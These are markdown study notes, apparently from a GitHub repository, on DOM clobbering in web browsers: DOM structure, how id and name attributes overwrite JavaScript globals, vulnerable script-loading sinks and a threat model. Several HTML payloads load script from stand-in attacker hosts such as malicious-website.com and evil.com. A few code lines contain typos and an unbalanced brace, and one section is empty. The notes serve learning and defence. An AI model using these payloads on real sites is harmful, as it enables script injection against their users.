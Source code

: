 --------------

### Dom Clobbering

--------------

### Document Object Model

-------------

- Dom is known as the document object model.It is a programming interface that allows us to create,remove and change element from a document.DOM is very powerful in the way that it allows you to change or access the majority of the content inside the web page. The DOM views an HTML document as a tree of nodes. A node represents an HTML element. 
- Html code E.g

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>DOM tree structure</title>
  </head>
  <body>
    <h1>DOM tree structure</h1>
 <h2>Learn about the DOM</h2>
  </body>
</html>
```
- Explanation-: The document is called the `root node` and contains  a child node which is the `<html>` tag.The `<html>` contains the `<head>` and `<body>` elements.`<head>` and `<body>` have elements of their own.

---------------

### HTML Collection

---------------

- When we combine HTML elements into groups they become a collection. This becomes like an array structure where you can represent each element by the order they appear in the collection e.g. collection[0], collection[1].

---------------

### DOM CLobbering

---------------

- DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM. So you can clobber a global variable or property of an object and overwrite it DOM Node or HTML collection. However, DOM was initially born and implemented without any standardization which led to a lot of peculiar behaviour and for the sake of maintaining compatibility, browsers still support the unusual behaviour of DOM. That leads us to DOM clobbering. Due to non-standardized DOM behaviour, browsers may sometimes add name and id attributes to various DOM elements as a property reference to document or global objects. However, this results in replacement of properties on the other objects.
- How it works-:
 - The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.The term clobbering comes from the fact that you are “clobbering” a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form’s actual submit() function.
- Main sink-:

```javascript
var someObject = window.someObject || {};
```

- If you can control some of the html, you can clobber the `someObject` object reference with a DOM node with an anchor.Check this code-:

```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

- Payload-:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js> 
```

- As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script.

--------------

### Basics

---------------

- You can generate global variables within the js context with the attributes `id` and `name` in html tags.

```html
<form id="x"></form>
<script>
  console.log(typeof document.x) //[object HTMLFormElement]
</script>
```
- Only certain elements can use the `name` attributes.e.g

```html
embed
form
iframe
image
img
object
```
- Interestingly, when you use a form element to clobber a variable, you will get the toString value of the element itself: [object HTMLFormElement] but with anchor the toString will be the anchor href.If you clobber using the a tag, you can control the value when it's treated as a string.

```html
<a href="controlled string" id="x"></a>
<script>
  console.log(x) //controlled string
</script>
```
- Clobbering an array and attributes-:

```html
<a id=x>
  <a id =x name=y href=controlled>
  </a>
</a>
```
- Use a form to clobber 3 attributes-:

```html
<form id="x" name="y"><input id="z" value="controlled" /></form>
<form id="x"></form>
<script>
  alert(x.y.z.value) //controlled
</script>
```
- Clobbering attributes with `iframe`

```html
<iframe name="x" srcdoc="<a id=y href=controlled></a>"></iframe>
<style>
  @import "https://google.com";
</style>
<script>
  alert(x.y) //controlled
</script>
```
--------------

### Youtube Video(Ruhrsec 2023)

----------------

-  It means `codeless markup injection`.
-  Markup `id/name` collides with sensitive variables or APIs, and overwrties them.
-  Code sink-:
```js
document.globalConfig = {'src': 'script.js', [...]);
// [...]
var s =  document.createElement('script');
//sink
s.src = doocument.globalCOnfig.src;
document.body.appendChild(s);
```
- Payload-:
```html
<img id="globalConfig" src="malicious.js" name=clobbered>
```
- Dom Clobbering: Threat Model-:
 - Injection( through input params)
   -  Url params
   -  Window name
   -  Document Referrer
   -  postMessages

-----------

### Why does  `DOM Clobbering` happen?

------------

- Locating DOM elements(the ez way)-:

```js
document.querySelector("[id=Y]");
```
- The dirty way(Property access on window or document)-:

```js
document.X.Y, or window.Y
```
--------------

### Clobbering Markups and Browser Behaviours

--------------

- First DOM Clobbering instance in 2010
- Application code-:

```js
top.location = self.location
```
- Attack markup(injection)-:
```html
<iframe name=self src="evil.com">
```
- What other attack markups will work?
 - Not all built-in APIs can be successfully overshadowed-:
 - SINK-:
    ```js
    document.documentURI //can be clobbered //<iframe name=documentURI src=evil.com>
    document.location //cannot be clobbered 
    ```
-------------

### How to Clobber

-------------

- 

---------------

### REFERENCES

---------------

- [IBM](https://medium.com/@ibm_ptc_security/dom-clobbering-baa55c208bce)

---------------
